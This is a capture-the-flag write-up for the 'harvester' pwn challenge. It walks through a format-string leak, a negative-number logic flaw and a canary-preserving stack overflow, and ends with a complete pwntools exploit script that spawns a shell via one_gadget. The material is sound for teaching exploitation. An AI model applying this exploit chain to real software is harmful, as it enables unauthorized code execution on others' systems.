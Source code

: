 ## Hackthebox Cyberapocalypse CTF: harvester [pwn]
![](harvester_desc.png)

## challenge information
#### pretty straightforward challenge. we were given a binary which had all protections enabled and the corresponding libc. The program was a menu-type pokemon-like kind of game where we had options to fight the wild harvester, check our inventory to drop some pies, stare at the creature, and to run. 

## reverse engineering
#### I'll do a quick rundown of all the functions that are used when interacting with the binary. Starting off with `fight()`, we see an obvious format string vuln in the following chunk of code:
```c
  printstr("\nChoose weapon:\n");
  printstr(&DAT_00101138);
  read(0,&weapon_choice,5);
  printstr("\nYour choice is: ");
  printf((char *)&weapon_choice);
```
#### Since we can only input 5 bytes into that weapon_choice buffer, we can only use the format string vuln to leak important details such as libc addresses and the stack canary. 

#### Next up, we have `inventory()`. 
```c
void inventory(void)

{
  long in_FS_OFFSET;
  int drop_count;
  char prompt [3];
  long cookie;
  
  cookie = *(long *)(in_FS_OFFSET + 0x28);
  drop_count = 0;
  show_pies(pie);
  printstr("\nDo you want to drop some? (y/n)\n> ");
  read(0,prompt,2);
  if (prompt[0] == 'y') {
    printstr("\nHow many do you want to drop?\n> ");
    __isoc99_scanf("%d",&drop_count);
    pie = pie - drop_count;
    if (pie < 1) {
      printstr(&DAT_00101205);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    show_pies(pie);
  }
```
#### Using this option we can drop pies. `pie` is a global variable which is initialized to `0xa` on program startup. The important thing to note here is that the function accepts negative integers as input, so instead of subtracting our input value from the pie variable, we can add more to it instead. 

#### Lastly, we have `stare` with the following chunk of code:
```c
void stare(void)

{
  long in_FS_OFFSET;
  undefined vuln_buffer [40];
  long cookie;
  
  cookie = *(long *)(in_FS_OFFSET + 0x28);
  printf("\x1b[1;36m");
  printstr("\nYou try to find its weakness, but it seems invincible..");
  printstr("\nLooking around, you see something inside a bush.");
  printf("\x1b[1;32m");
  printstr(&DAT_0010129a);
  pie = pie + 1;
  if (pie == 0x16) {
    printf("\x1b[1;32m");
    printstr("\nYou also notice that if the Harvester eats too many pies, it falls asleep.");
    printstr("\nDo you want to feed it?\n> ");
    read(0,vuln_buffer,0x40);
    printf("\x1b[1;31m");
    printstr("\nThis did not work as planned..\n");
  }
```
#### It first adds 1 to the current value of `pie` then proceeds to check if that value is `0x16`. In the case that it is, we proceed to the inner block of the if statement where we have yet another buffer overflow. We do have the stack cookie to bypass somehow so that we can turn it into an RCE.

## Catching the wild harvester.
#### With all the above information, we can formulate the following plan:
```
1. Leak a libc address and the stack canary using the format string vuln in fight()
2. Set the pie value to be 0x15 using the negative integer logic flaw on inventory()
3. Call stare() so that it adds 0x1 to the pie value, making it a total of 0x16. We can then proceed to overflow the buffer, preserve the cookie, then execute another one_gadget payload to pop a shell
```

![](harvester_shell.png)

##### exploit code
```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./harvester', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

#p = process('./harvester', env = {'LD_PRELOAD' : libc.path})
p = remote("165.227.232.115", 32186)
p.recvuntil(b'> ')

#: GDB SETTINGS
breakpoints = []
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
def choose_weapon(fmtstr):

	p.sendline('1') #: fight option
	print(p.recvuntil(b'>'))
	p.sendline(fmtstr)
	p.recvuntil(b': ')
	leak = p.recvuntil(b'\n').strip()
	p.recvuntil(b'> ')
	return leak

#: PWN THY VULNS

nanosleep = int(choose_weapon('%3$p'), 16) - 20 
libc.address = nanosleep - libc.sym.nanosleep
canary = int(choose_weapon('%11$p').split(b'\x1b')[0], 16)
#print(choose_weapon('%3$p'))
log.info(hex(nanosleep))
log.info(hex(libc.address))
log.info(hex(canary))


#: set the pie to be 0x15
p.sendline('2') #: Inventory option
p.sendlineafter(b'> ', 'y')
p.sendlineafter(b'> ', '-11')
p.recvuntil(b'> ')

#: choosing the stare option will add 1 to the pie
#: thus allows us to pass the check so that we can proceed to the buffer overflow
p.sendline('3') #: Stare option
one_gadgets = [0x4f3d5, 0x4f432, 0x10a41c]
payload = cyclic(40) + p64(canary) + cyclic(8) + p64(libc.address + one_gadgets[0])
p.sendlineafter(b'> ', payload)
p.interactive()
```